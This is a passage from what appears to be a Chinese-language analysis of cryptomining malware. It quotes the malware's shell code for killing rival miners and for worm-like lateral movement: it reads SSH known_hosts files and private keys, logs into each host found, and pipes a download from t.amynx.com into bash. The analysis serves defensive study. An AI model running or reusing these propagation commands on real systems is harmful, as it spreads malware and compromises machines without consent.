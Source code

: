 ```
	rm /tmp/.yam* -rf
	rm -f /tmp/irq

# Killing and blocking miners by network related IOC
network(){
	# Kill by known ports/IPs
	netstat -anp | grep 69.28.55.86:443 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9
	netstat -anp | grep 185.71.65.238 |awk '{print $7}'| awk -F'[/]' '{print $1}' | xargs kill -9

files
processes
network
echo "DONE"
```

接下来是下载恶意二进制程序以及ssh横向传播
```
代码片段1
if [ -f /root/.ssh/known_hosts ] && [ -f /root/.ssh/id_rsa.pub ]; then
  for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h 'export src=sshcopy;(curl -fsSL http://t.amynx.com/ ......
fi

代码片段2
for file in /home/*
do
    if test -d $file; then
        if [ -f $file/.ssh/known_hosts ] && [ -f $file/.ssh/id_rsa.pub ]; then
            for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h 'export src=sshcopy;(curl -fsSL http://t.amynx.com/ ...... |bash >/dev/null 2>&1 &' & done
        fi
    fi
done

代码片段3
  for user in $userlist; do
    for host in $hostlist; do
      for key in $keylist; do
        for sshp in $sshports; do
          i=$((i+1))
          if [ "${i}" -eq "20" ]; then
            sleep 20
            ps wx | grep "ssh -o" | awk '{print $1}' | xargs kill -9 &>/dev/null &
            i=0
          fi
          #Wait 20 seconds after every 20 attempts and clean up hanging processes

          chmod +r $key
          chmod 400 $key
          echo "$user@$host $key $sshp"
          ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host -p$sshp "export src=sshcopy;(curl -fsSL http://t.amynx.com/ ...... |bash >/dev/null 2>&1 &"
        done
      done
    done
  done
```
上面这三段代码是通过ssh的证书登录方式横向感染
